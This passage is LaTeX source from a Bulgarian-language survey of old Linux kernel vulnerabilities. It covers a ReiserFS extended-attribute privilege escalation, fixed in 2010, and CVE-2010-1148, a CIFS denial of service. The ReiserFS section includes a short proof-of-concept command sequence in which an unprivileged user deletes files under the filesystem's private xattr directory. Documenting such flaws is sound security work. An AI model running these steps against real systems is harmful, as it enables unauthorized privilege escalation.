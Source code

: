 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от:
  	\item Добива публичност: 2010-02-24
    \item Оправен: 2010-04-08\footnote{\url{http://marc.info/?l=linux-kernel&m=127076012022155&w=2}}
\end{itemize}

\subsection{Exploit}
като root:
\begin{verbatim}
truncate --size 64M test.reiserfs
mkreiserfs -f test.reiserfs
mkdir /mnt/test
mount -o loop,rw,user_xattr test.reiserfs /mnt/test
setfattr -n user.test -v myvalue /mnt/test
\end{verbatim}
като непривилегирован потребител:
\begin{verbatim}
ls -l /mnt/test/.reiserfs_priv/xattrs/2.0
rm /mnt/test/.reiserfs_priv/xattrs/2.0/user.test 
\end{verbatim}
Вижда се, че непривилигирован потребител може да пише в \textit{/mnt/test/.reiserfs\_priv}.


\section{CVE-2010-1148 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
Функцията \textit{cifs\_create} в \textit{fs/cifs/dir.c} в Linux ядрото версия 2.6.33.2 и по-
ранните от нея позволява на локални потребители да предизвикат DoS или 
евентуално някакъв друг проблем, посредством нулево \textit{nameidata} (още 
известно като nd) поле в POSIX-заявка за създаване на файл до сървър, 
поддържащ UNIX-разширения.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2009-02-23
  	\item Добива публичност: 2010-04-02
    \item Оправен: 2010-04-22\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=fa588e0c57048b3d4bfcd772d80dc0615f83fd35}}
\end{itemize}
\end{document}
